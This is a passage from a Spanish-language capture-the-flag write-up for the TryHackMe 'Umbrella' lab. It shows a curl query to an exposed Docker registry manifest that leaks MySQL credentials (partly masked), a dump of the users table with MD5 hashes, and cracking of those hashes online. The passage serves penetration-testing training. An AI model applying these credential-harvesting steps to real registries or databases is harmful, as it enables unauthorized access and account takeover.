 Continuo con la documentación de [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), ejecutamos el siguiente comando, grepeando por "*DB_DATABASE*", y logramos obtener las credenciales del servicio MySQL:

```
> curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest | jq | grep -i "DB_DATABASE"
      "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=********\",\"DB_PASS=**********\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=****\",\"DB_PASS=************Ng1-f3!Pe7-e5?Nf3xe5************\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
      "v1Compatibility": "{\"id\":\"a736d9865b752b4c30c68719d04b5f5e404bd9302ab81a451a2b6679901ee50d\",\"parent\":\"15da84a53f8e99c1b070fa72a863ba37ccfd70e0df889ff4a8b03f935e03e98b\",\"created\":\"2022-12-22T10:02:11.849073942Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  ENV DB_DATABASE=timetracking\"]},\"throwaway\":true}"

```

## Explotación
Nos conectamos al servicio MySQL con las credenciales, encontramos los usuarios registrados en la base de datos, las contraseñas se encuentran cifradas en MD5:

```
MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | ****************** |   360 |
| chris-r  | ****************** |   420 |
| jill-v   | ****************** |   564 |
| barry-b  | ****************** | 47893 |
+----------+----------------------------------+-------+

```

Utilizamos la herramienta online [hashes.com](https://hashes.com), logramos extraer las cuatro credenciales en texto plano:
